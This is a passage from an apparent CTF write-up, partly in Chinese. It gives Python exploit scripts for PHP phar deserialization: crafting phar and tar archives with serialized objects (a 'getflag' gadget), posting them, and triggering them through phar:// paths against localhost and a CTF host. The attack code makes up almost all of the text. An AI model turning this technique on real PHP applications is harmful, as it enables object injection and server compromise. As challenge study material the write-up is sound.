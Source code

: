 ```python
def make_gzipfile(output_filename, source_file):
    content = open(source_file, 'rb').read()
    f = gzip.open(output_filename, 'wb')
    f.write(content)
    f.close()


if __name__ == "__main__":
    src = 'app.phar'
    dst = 'app.phar1'
    resign(src, dst)
    make_gzipfile('app.gz', dst)

    url = 'http://localhost/?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
    data = {"0": open('app.gz', 'rb').read()}
    requests.post(url, data=data)

    url = 'http://localhost/?0=O:1:"A":1:{s:6:"config";s:1:"r";}'
    data = {"0": 'phar://tmp/a.txt'}
    requests.post(url, data=data)
```

## 脚本1 -- 通过tar抛弃签名

```python
import shutil
import tarfile
import os.path
import gzip
import requests


def make_tarfile(output_filename, source_dir):
    os.system(f'tar -cf app.tar {source_dir}')
    # with tarfile.open(output_filename, "w:gz") as tar:   # 打ctf用system或py2/python2压tar, py3压的tar打不通, 而且py2压的没明文，不需要再加成gzip
    #     tar.add(source_dir, arcname=os.path.basename(source_dir))



def make_gzipfile(output_filename, source_file):
    content = open(source_file, 'rb').read()
    f = gzip.open(output_filename, 'wb')
    f.write(content)
    f.close()


def init():
    for f in ['app.tar', 'app.tar.gz', '.phar']:
        try:
            shutil.rmtree(f)
        except OSError:
            pass
    os.mkdir('.phar')
    open('.phar/.metadata', 'w').write("""a:1:{i:0;O:7:"getflag":0:{};i:0;N;}""")


if __name__ == "__main__":
    init()
    make_tarfile('app.tar', '.phar')
    make_gzipfile('app.tar.gz', 'app.tar')

    url = 'http://476-8d846a63-ef2a-4efd.nss.ctfer.vip:9080/?0=O:1:"A":1:{s:6:"config";s:1:"w";}'
```